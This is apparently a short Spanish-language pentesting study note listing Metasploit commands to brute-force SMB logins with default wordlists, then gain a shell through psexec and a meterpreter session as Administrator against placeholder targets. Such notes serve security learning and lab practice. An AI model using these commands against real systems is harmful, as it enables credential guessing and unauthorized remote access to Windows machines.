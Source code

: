 ```yaml
---
created: 2024-12-21

---
```

--------
- tags: #smb #windows #bruteforce #psexec #metasploit #meterpreter 
---------

### Ataque de fuerza bruta con Metasploit

	msfdb run
	use auxiliary/scanner/smb/smb_login
	set RHOSTS x.x.x.x
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set VERBOSE false
	run

### Autenticarse con psexec

	psexec Administrator@x.x.x.x cmd.exe
(pedirá la contraseña al ejecutarlo)

### Autenticarse con el psexec de Metasploit (meterpreter session)

	seach psexec 
	use exploit/windows/smb/psexec
	set RHOSTS x.x.x.x
	set SMBUser Administrator
	set SMBPass 123456789
	exploit
	